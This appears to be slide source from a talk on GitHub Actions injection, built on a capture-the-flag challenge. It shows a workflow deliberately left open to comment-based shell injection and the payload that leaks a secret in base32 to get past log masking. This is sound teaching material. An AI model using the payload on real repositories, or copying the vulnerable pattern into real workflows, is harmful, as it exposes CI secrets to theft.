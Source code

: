 


# Playground

```yaml
trigger: <trigger>, how can we control the way the workflow is executed
input: <input>, what input we control
  - Fixed (path) file write
  - file write (full control, append)
  - "output" write
exploitation:
  - command execution
  - business logic corruption
loot:
  - secret
  - write permission to repo
  - rebond
```

---

{{< slide transition="slide-in none-out" >}}
## {{ mustache }} attack

```yaml
# From: https://github.com/Nebouh/tdf-ctf-cicd/blob/main/.github/workflows/chall1.yml
name: 🔒 Chall 1 - I won't say my password

on:
  issue_comment:
    types: [created, edited] # trigger
  
jobs:
  chall:
    runs-on: ubuntu-latest
    steps:
    - name: View issue information
      run: echo '${{ github.event.comment.body }}' # input
      env:
        FLAG: ${{ secrets.FLAG }} # loot
        PAYLOAD: ???
```

---

{{< slide transition="slide-out none-in" >}}
## {{ mustache }} attack

```yaml
# From: https://github.com/Nebouh/tdf-ctf-cicd/blob/main/.github/workflows/chall1.yml
name: 🔒 Chall 1 - I won't say my password

on:
  issue_comment:
    types: [created, edited] # trigger
  
jobs:
  chall:
    runs-on: ubuntu-latest
    steps:
    - name: View issue information
      run: echo 'Hi'; echo "${FLAG}" | base32 ;echo 'Here' # input
      env:
        FLAG: ${{ secrets.FLAG }} # loot
```